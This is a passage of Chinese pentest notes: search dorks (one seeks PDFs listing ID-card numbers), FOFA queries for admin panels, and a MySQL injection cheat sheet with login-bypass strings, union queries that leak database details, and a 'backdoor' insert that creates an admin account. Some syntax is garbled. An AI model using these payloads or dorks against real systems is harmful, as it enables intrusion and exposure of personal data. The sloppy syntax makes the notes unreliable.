 |    intext:     |  内容包含关键字  |                   intext:星星                    |
|   filetype:    |   包含文件类型   | intitle:"身份证" &&"清单" \| "名单" filetype:pdf |
|      link      |     包含链接     |                  link:baidu.com                  |

### 空间测绘(fofa)

| 关键字   | 示例                                                     |
| -------- | -------------------------------------------------------- |
| domain   | domain="xxx.cn" && (title="管理")                        |
| title    | title="管理"                                             |
| protocol | domain="enn.cn" && (protocol="ftp" ll protocol="mysql" ) |
| body     | body=“xxx”&& (title="管理")                              |
| app      | domain="enn.cn" && (app="管理")                          |

## 漏洞利用

POC：漏洞验证代码

EXP：漏洞利用代码



> 集成工具

Goby（Windows，收费）

ARL（linux docker部署，收费，免费版停止维护）



## SQL注入（mysql）

### 查询数据

```sql
' or 1=1 --			##万能查询注入sql

' or '1'='1			##删除sql注入

show warning		##查看报错

INSERT INTO users(uid uname,password isadmin)
SELECT 2,Hanson02','xmf123',1;			##常用insert

Insert into users(uid,username,password,isadmin)
Values(1,'<scipts javascript>cracker,60,60,G0</scripts>''hs123' 1)		##后门思路
                  

show cloumns from users;		##显示字段
show create table users;		##显示字段

Select * from users where uid in (select uid from admin)； ## 两表查相同数据

select * from users union select * from admin;				##两表全查

select * from user where uid = 11079 union select 1,2,user() ,database(),@@datadir;	##获取数据库名称，数据库路径，数据库用户

and ！！！2=2		##用多重不等于判断

'))")) --+			##判断闭合方式
```